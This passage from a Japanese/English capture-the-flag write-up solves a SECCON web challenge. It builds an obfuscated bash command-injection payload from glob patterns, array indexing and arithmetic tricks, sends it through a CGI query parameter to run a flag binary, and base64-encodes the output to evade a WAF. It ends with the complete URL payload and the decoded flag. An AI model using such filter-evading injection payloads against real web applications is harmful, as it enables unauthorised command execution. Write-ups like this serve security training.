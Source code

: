 ```
______=echo # echo
```

## flag execution

flagコマンドは以下で実行できます。
The flag command can be executed as follows.

```
__=($(echo ../../???/????));${__[20]} # flag
```

## base64 execution

flagコマンドを実行すると出力内容にフラグ形式である"SECCON"が含まれることが想定されます。（もしくは、実行するとWAFに引っかかるため、それで判断できます）
SECCONを編集する方法はいくつか思い浮かびますが、ここではbase64エンコードしてWAFを回避してみます。
To avoid WAF, you need to convert the SECCON characters in the response.

```
___=($(echo ../../???/??????));${___[1]} # base64
```

## Got it! Combined

という訳で、全部合体させるとこうなります!
You're going to combine them all.

```
X[$(____=$(../../???/d?t?);______=echo;__=($($______${____:$(($$/$$+$$/$$+$$/$$)):$(($$/$$))}../../???/????));___=($($______${____:$(($$/$$+$$/$$+$$/$$)):$(($$/$$))}../../???/??????));${__[$(($$/$$+$$/$$))$?]}|${___[$(($$/$$))]})]
```

最終的にやってることは以下です。
Here's what you're ultimately doing.

```
../../bin/flag|../../bin/base64
```

## Answer

以下でアクセスすると、base64エンコードされたflagを得ることができます。これが想定解でした。
You can get the base64 encoded flag if you access it at the following URL.This was the expected solution.

```
http://xxx.xxx.xxx.xx/cgi-bin/index.cgi?q=X[$(____=$(../../???/d?t?);______=echo;__=($($______${____:$(($$/$$+$$/$$+$$/$$)):$(($$/$$))}../../???/????));___=($($______${____:$(($$/$$+$$/$$+$$/$$)):$(($$/$$))}../../???/??????));${__[$(($$/$$+$$/$$))$?]}|${___[$(($$/$$))]})]
```

```
$ echo U0VDQ09Oe1dBRjAwMDAwMDAwMDAhfQo=|base64 -d
SECCON{WAF0000000000!}
```

